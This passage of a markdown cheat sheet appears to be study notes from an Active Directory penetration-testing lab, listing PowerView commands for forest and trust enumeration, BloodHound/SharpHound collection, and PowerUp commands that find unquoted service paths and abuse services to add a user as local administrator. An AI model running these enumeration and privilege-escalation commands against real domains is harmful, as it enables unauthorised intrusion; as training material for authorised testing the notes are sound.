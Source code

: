     Get-NetForestCatalog
	Get-NetForestCatalog -Forest eurocorp.local
    
    ```
    
- Find the forest trust
    
    ```powershell
	
	# Map trusts of a forest

	Get-NetForestTrust

    Get-NetForestTrust -Forest organicsecurity.local
    
    ```
    

**BloodHound & SharpHound**

- Install neo4j service
    
    ```powershell
    .\neo4j.bat install-service
    net start neo4j
    
    . .\Sharhound.ps1
    Invoke-BloodHound -CollectionMethod All
    
    ```
    

# PrivEsc - Misconfiguration & Feature Abuse

- Escalate privilege on local system to gain Admin rights
    - PowerUp : https://[github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](http://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
    - BeRoot : https://[github.com/AlessandroZ/BeRoot](http://github.com/AlessandroZ/BeRoot)
    - Privesc : https://[github.com/enjoiz/Privesc](http://github.com/enjoiz/Privesc)
- **PowerUp**
    + NOTE : ONCE A LOCAL ADMINISTRATOR RUN PS as ADMINISTRATOR
	
    ```powershell
    Get-ServiceUnquoted
	# Unquoted service path:
	Get-ServiceUnquoted -Verbose
	
    Invoke-AllChecks
    
    Invoke-ServiceAbuse -Name 'Sevice Name'
	
	# Abusing services
	Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'
